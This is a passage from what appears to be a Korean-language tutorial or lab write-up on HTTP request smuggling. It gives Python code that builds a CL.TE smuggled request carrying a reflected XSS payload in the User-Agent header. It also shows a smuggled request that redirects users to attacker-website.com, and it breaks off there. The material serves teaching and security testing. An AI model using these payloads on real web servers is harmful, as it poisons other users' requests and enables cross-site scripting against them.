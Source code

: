 ``` python
second_request  = b'GET /post?postId=5 HTTP/1.1\r\n'
second_request += b'Host: '+HOST.encode()+b'\r\n'
second_request += b'User-Agent:"/> <script>alert(1)</script>\r\n'
second_request += b'\r\n'
second_request += b'x=1'

first_request  = b'POST / HTTP/1.1\r\n'
first_request += b'Host: '+HOST.encode()+b'\r\n'
first_request += b'Content-Length: '+str(len(second_request)+5).encode()+b'\r\n'
first_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
first_request += b'Transfer-Encoding: chunked\r\n'
first_request += b'\r\n'
first_request += b'0\r\n\r\n'
```

comment form을 보면 hidden 타입의 input 중에 `userAgent` 가 있습니다.

``` html
<input required="" type="hidden" name="userAgent" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.193 Safari/537.36">
```

요청의 `User-Agent` 헤더로부터 값을 가져오기 때문에 이 페이지를 방문할 때 `User-Agent` 값을 바꿔주면 **reflected XSS** 를 이용해 `alert(1)`을 실행할 수 있습니다.

### 😎 Using HTTP request smuggling to turn an on-site redirect into an open redirect

많은 어플리케이션들이 요청의 `Host`헤더에 redirect할 호스트를 넣어서 다른 URL로 on-site redirect를 수행합니다.

예 중에 하나가 Apache, IIS 웹 서버의 기본 동작인데, 끝에 슬래쉬를 붙이지 않고 폴더에 접근하려고 하면, 같은 폴더를 대상으로 슬래쉬를 붙여서 리다이렉트 시킵니다.

**Request :**

``` http
GET /home HTTP/1.1
Host: normal-website.com
```

 **Response :**

``` http
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

이런 동작이 평소에는 위험하지 않은 것 같지만,  request smuggling 공격을 사용해서 사용자의 요청을 다른 도메인으로 보내는 방식으로 익스플로잇할 수 있습니다. 예시를 봅시다 :

``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
